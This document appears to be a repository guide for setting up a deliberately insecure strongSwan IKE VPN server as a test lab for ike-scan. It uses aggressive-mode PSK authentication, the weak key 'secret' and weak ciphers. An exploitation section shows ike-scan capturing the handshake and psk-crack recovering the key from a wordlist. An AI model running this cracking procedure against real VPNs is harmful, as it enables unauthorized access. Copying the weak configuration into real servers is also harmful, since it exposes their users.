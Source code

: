 # insecure IKE configuration

this document's purpose is to provide a guide on how to setup an **intentionally insecure** VPN server.
this setup can then be used to test the `icke` (`ike-scan`) tool.
it also shows how relatively easy it is to crack weak passwords.

first, follow the guide on [how to set up an IKEv2 VPN server with strongSwan](https://www.digitalocean.com/community/tutorials/how-to-set-up-an-ikev2-vpn-server-with-strongswan-on-ubuntu-22-04) by DigitalOcean.
after that, follow the adjustments, outlined below.

## adjustments

see [IKE Aggressive Mode](https://www.doyler.net/security-not-included/ike-aggressive-mode-vpn).

### edit `/etc/ipsec.secrets`

```text
: RSA "server-key.pem"
: PSK "secret"
```

see [PSK secret](https://wiki.strongswan.org/projects/strongswan/wiki/PskSecret).

### edit `/etc/ipsec.conf`

```text
config setup
  charondebug="ike 1, knl 1, cfg 0"
  uniqueids=no

conn %default
  auto=add

  left=%any
  leftid=%any
  leftcert=server-cert.pem
  leftsendcert=always
  leftsubnet=0.0.0.0/0

  right=%any
  rightsendcert=never
  rightsourceip=10.10.10.0/24

conn ipsec
  aggressive=yes
  authby=psk

  ike=aes256-sha1-modp1024,aes128-sha1-modp1024,3des-sha1-modp1024
  phase2alg=aes256-sha256,aes256-sha1,3des-sha1

conn ikev2-vpn
  ike=chacha20poly1305-sha512-curve25519-prfsha512,aes256gcm16-sha384-prfsha384-ecp384,aes256-sha1-modp1024,aes128-sha1-modp1024,3des-sha1-modp1024
```

see the [man page for `ipsec.conf`](https://linux.die.net/man/5/ipsec.conf).

### edit `/etc/strongswan.conf`

```text
charon {
        load_modular = yes
        plugins {
                include strongswan.d/charon/*.conf
        }
        i_dont_care_about_security_and_use_aggressive_mode_psk = yes
}

include strongswan.d/*.conf
```

see the [documentation about Aggressive Mode in strongSwan](https://docs.strongswan.org/docs/5.9/support/faq.html#_aggressive_mode)

### reload strongSwan

```shell
sudo systemctl restart strongswan-starter.service
```

## exploitation

```text
$ ike-scan --sport=0 --aggressive --id=test --pskcrack=handshake.txt $target
Starting ike-scan 1.9.4 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
[target]  Aggressive Mode Handshake returned HDR=(CKY-R=bb8e1919fe474845) SA=(Enc=3DES Hash=SHA1 Group=2:modp1024 Auth=PSK LifeType=Seconds LifeDuration=28800) KeyExchange(128 bytes) Nonce(32 bytes) ID(Type=ID_DER_ASN1_DN, Decode not supported for this type) VID=09002689dfd6b712 (XAUTH) VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) Hash(20 bytes)

Ending ike-scan 1.9.4: 1 hosts scanned in 0.056 seconds (17.93 hosts/sec).  1 returned handshake; 0 returned notify

$ psk-crack --dictionary=/usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt handshake.txt
Starting psk-crack [ike-scan 1.9.4] (http://www.nta-monitor.com/tools/ike-scan/)
Running in dictionary cracking mode
key "secret" matches SHA1 hash 2b62679eab255edd321d0adf3a9b99cf90a5e321
Ending psk-crack: 90 iterations in 0.001 seconds (85066.16 iterations/sec)
```
